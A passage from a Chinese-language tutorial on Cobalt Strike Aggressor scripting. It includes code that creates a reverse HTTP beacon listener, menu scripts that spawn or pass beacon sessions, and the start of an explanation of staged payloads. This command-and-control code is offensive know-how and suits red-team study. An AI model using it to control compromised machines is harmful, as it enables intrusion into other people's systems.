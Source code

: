     ```
    listener_create_ext("我的HTTP监听","windows/beacon_http/reverse_http",%(host=>"IP或者域名",port=>1080,beacons =>"IP或者域名"));printAll(listeners());println("创建成功！");
    ```
    
    由于我的端口被占用，我先删除一下：
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99O1yXjr6wsRJHp9Y9QAtCq9tT8e2EiaIrE2gCZrWEt8A3E8PeByUt78hg/640?wx_fmt=png)
    
    然后运行 cna 并查看：
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OZ0Wy5ia0w01FhSnIq4F8p28bNGY3G6rP2mGOJVVJP0GtXnRz5Fzic4ZA/640?wx_fmt=png) ![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OTicOd2TQQAs1ePetgoNxyoVQicCFLmGtUQSr7DpUmULsvaeNYwKM7WiaA/640?wx_fmt=png) 成功创建，我们这里的参数并没有全部按照啥要求填满，和我们平时 GUI 创建是一样的。在原文中提到过一个 代理问题 ，这里我没写，因为我感觉用的比较少
    
*   会话传递
    
    在我们日常使用的时候，我们会将会话传递 (Spawn)，比如将会话传递到 MSF 中，或者传递 SMB 到其他会话，下面是这个操作的源码：
    
    ```
    item "&Spawn" {	openPayloadHelper(lambda({		binput($bids, "spawn x86 $1");		bspawn($bids, $1, "x86");	}, $bids => $1));}
    ```
    
    这里面设计到多个 数据模型 ，我们一个一个的讲解。
    

*   openpayloadHelper： 打开我们拥有的 Listener 会话框：
    
*   bspawn：创建新的会话，需要传递一个会话 ID
    

```
popup beacon_bottom{    	item("&会话传递",{openPayloadHelper(lambda({    	bspawn($bid, $1);  	println("我们传递的监听器是".$1)},#         $bid => $1));});  }
```

  
当 openpayladhelper 打开存在的 Listener 会话时，他需要接受一个值，这个值是选定的监听器，然后这里将这个值传递给 bspawn，bsapwn 需要接受的第一个值也是选定的监听器（bspawn 是生成一个新的会话），所以这里我们的将选择的监听器传递给 bspawn 就可以传递会话，这个地方的写法是固定的，单独的将 openPayloadHelper 使用是不可以的，但是 baspwn 是可以的，当运行上面的内容以后，我们可以查看`$1`的值，你会发现就是我们所选择的监听器：  
![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OSrHhkRVjsBbakzqK2jVbeXvPShdnNc6I2QqkaJb6F163lS7SoVkT5A/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99OVXL04QX5ZqjEU8deSecCGuozPNXnkJB1eUx6H2SA0xlQvEbKqicSDCA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99O8MZsMibuoTEklvxicOyTEibQ01ZSce2An9Zzam3k6EicUoh0R1ianC5iaoqw/640?wx_fmt=png)

这样我们也算是重写了我们 Spwan 的数据模型

官方菜单写法中，使用的是 `binput`，这个 数据模型 是用来在 Becon 中显示我们执行的命令的，下面是官方的写法的结果： ![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzDxJ1g3JhcaY4KQAQpVH99O7uEiaILQd2kpSjuCb0ufzKD0DQ9o71DUWlzFY4zb5xPWqqJ7ztUbdsQ/640?wx_fmt=png)

Stagers 
--------

> Stager 我只能根据我的理解来描述，肯定会和很多师傅的不相同，仅作为参考

Stage（阶段）指的是分阶段，他没有含义，仅仅是指的这种类型，分阶段木马一般是我们在目标上无法使用较大的文件或者命令时使用，使用这样的方式分阶段的一个一个的从远端下载我们的代码，然后传输到受控段

Stager 指加载器，例如下面这个截图：
